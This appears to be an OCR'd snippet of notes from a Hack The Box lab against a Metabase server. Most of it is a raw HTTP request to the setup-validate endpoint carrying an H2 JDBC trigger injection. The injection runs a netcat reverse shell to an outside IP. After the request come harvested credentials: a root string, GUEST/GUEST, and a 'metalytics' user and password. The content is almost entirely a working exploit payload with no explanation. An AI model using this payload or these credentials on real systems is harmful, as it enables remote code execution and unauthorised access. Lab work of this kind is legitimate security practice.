 ```yaml
---
category: Uncategorized
tags: []
---
```

POST /api/setup/validate HTTP/1.1

Host: data.analytical.htb

Content-Type: application/json

Content-Length: 769



{

    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",

    "details":

    {

        "is_on_demand": false,

        "is_full_sync": false,

        "is_sample": false,

        "cache_ttl": null,

        "refingerprint": false,

        "auto_run_queries": true,

        "schedules":

        {},

        "details":

        {

            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {nc,10.10.14.12,1234,-e,/bin/sh}')\n$$--=x",

            "advanced-options": false,

            "ssl": true

        },

        "name": "an-sec-research-team",

        "engine": "h2"

    }

}












root:f80006ccdc7

db user=GUEST
password=GUEST


metalytics
An4lytics_ds20223#